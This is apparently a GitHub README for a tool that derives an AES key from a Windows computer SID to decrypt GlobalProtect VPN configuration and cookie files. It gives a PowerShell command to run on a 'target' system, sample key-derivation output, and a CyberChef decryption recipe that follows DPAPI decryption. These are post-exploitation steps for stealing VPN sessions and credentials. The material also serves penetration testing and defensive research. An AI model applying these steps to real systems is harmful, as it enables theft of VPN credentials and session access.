 # GlobalProtect_KeyGen

Tool for generating encryption key to decrypt offline GlobalProtect VPN configuration and cookies using the Computer SID.

## Usage

Obtain Computer SID of target (execute on target system)
```
((get-wmiobject -query "Select * from Win32_UserAccount Where LocalAccount = TRUE").SID -replace "\d+$","" -replace ".$")[0]
```

Run offline to obtain encryption key
```
> GlobalProtect_KeyGen.exe
Usage: GlobalProtect_KeyGen.exe Computer_SID_VALUE
```

```
> GlobalProtect_KeyGen.exe S-1-5-21-3853142505-1760735370-2458319090
[*] Deriving AES key from computer SID
        [*] Computer SID : S-1-5-21-3853142505-1760735370-2458319090
        [*] Computer SID (Hex) : 010400000000000515000000E949AAE58AB0F268F2F88692
        [*] Derived AES Key: FFD40E0D6894B0582E3AA0F2899F9FBEFFD40E0D6894B0582E3AA0F2899F9FBE
```

## Decrypt .dat files (after DPAPI decryption -> [dpapi.py](https://github.com/fortra/impacket/blob/master/examples/dpapi.py)) using CyberChef
https://gchq.github.io/CyberChef/#recipe=AES_Decrypt(%7B'option':'Hex','string':'FFD40E0D6894B0582E3AA0F2899F9FBEFFD40E0D6894B0582E3AA0F2899F9FBE'%7D,%7B'option':'Hex','string':'0000000000000000'%7D,'CBC','Raw','Hex',%7B'option':'Hex','string':''%7D)

## Original Source Code
https://github.com/rotarydrone/GlobalUnProtect
